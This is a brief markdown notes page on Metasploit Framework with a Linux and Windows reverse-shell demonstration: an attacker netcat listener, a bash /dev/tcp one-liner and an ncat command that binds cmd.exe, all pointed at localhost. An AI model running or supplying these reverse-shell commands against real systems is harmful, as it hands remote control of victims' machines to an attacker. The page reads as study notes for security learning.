 # Metasploit Framework

- [msfconsole install Ubuntu 20.04](https://kifarunix.com/install-metasploit-framework-on-ubuntu-22-04-ubuntu-20-04/)

## [0]. Reverse-shell

- [Tools Support Create Reverse-Shell](https://www.revshells.com/) .

- VD demo:
  - Attacker: `nc –lnvp 5555`
  - Victim: 
	- `Linux`: `bash -c "bash -i >& /dev/tcp/127.0.0.1/5555 0<&1"` 
	- `Windows`: `ncat 127.0.0.1 5555 -e cmd.exe`

- ...


## [1]. References

- ...
